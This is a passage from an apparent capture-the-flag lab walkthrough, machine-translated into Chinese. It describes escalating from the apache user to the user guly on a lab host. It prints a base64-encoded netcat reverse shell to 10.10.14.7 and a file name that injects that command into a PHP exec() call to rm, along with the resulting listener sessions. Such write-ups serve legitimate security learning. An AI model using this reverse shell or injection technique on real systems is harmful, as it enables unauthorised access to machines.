 
所以我测试了更多的贝壳作为阿帕奇。这个效果很好。我 base64 对我想运行的内容进行了编码：

    root@kali# echo nc -e /bin/bash 10.10.14.7 443 | base64 -w0
    bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg==
    

现在从阿帕奇我可以运行：

    bash-4.2$ echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh
    

我得到了一个稳定的回调：

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57710.
    id
    uid=48(apache) gid=48(apache) groups=48(apache)
    

### 获取外壳

把这些放在一起，我将触摸一个将获得shell的文件：

    bash-4.2$ touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b'
    bash-4.2$ ls
    10_10_14_5.php.png
    127_0_0_1.png
    127_0_0_2.png
    127_0_0_3.png
    127_0_0_4.png
    a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b
    index.html
    

当脚本运行时，它将遍历文件，当它在我的文件上运行时，它将设置为并运行：`$value``a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b`

    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    

这意味着它将运行：

    exec("nohup /bin/rm -f /var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjcgNDQzCg== | base64 -d | sh; b > /dev/null 2>&1 &");
    

一旦时钟达到可被三整除的一分钟，我就得到一个外壳：

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:57712.
    id
    uid=1000(guly) gid=1000(guly) groups=1000(guly)
    